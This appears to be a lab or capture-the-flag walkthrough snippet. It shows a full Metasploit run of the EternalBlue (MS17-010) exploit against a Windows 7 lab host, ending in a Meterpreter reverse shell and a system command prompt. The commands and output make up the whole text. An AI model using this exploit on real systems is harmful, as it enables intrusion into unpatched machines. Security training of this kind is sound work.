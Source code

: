 {% tab title="Run exploit" %}
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.200.80
RHOSTS => 10.10.200.80
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.9.8.228
LHOST => 10.9.8.228
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.9.8.228:4444 
[*] 10.10.200.80:445 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.200.80:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.200.80:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.200.80:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.200.80:445 - The target is vulnerable.
[*] 10.10.200.80:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.200.80:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.200.80:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.200.80:445 - Connecting to target for exploitation.
[+] 10.10.200.80:445 - Connection established for exploitation.
[+] 10.10.200.80:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.200.80:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.200.80:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.200.80:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.200.80:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.200.80:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.200.80:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.200.80:445 - Sending all but last fragment of exploit packet
[*] 10.10.200.80:445 - Starting non-paged pool grooming
[+] 10.10.200.80:445 - Sending SMBv2 buffers
[+] 10.10.200.80:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.200.80:445 - Sending final SMBv2 buffers.
[*] 10.10.200.80:445 - Sending last fragment of exploit packet!
[*] 10.10.200.80:445 - Receiving response from exploit packet
[+] 10.10.200.80:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.200.80:445 - Sending egg to corrupted connection.
[*] 10.10.200.80:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.200.80
[*] Meterpreter session 1 opened (10.9.8.228:4444 -> 10.10.200.80:49169) at 2021-07-27 10:36:06 -0400
[+] 10.10.200.80:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.200.80:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.200.80:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > shell
Process 2424 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endtab %}
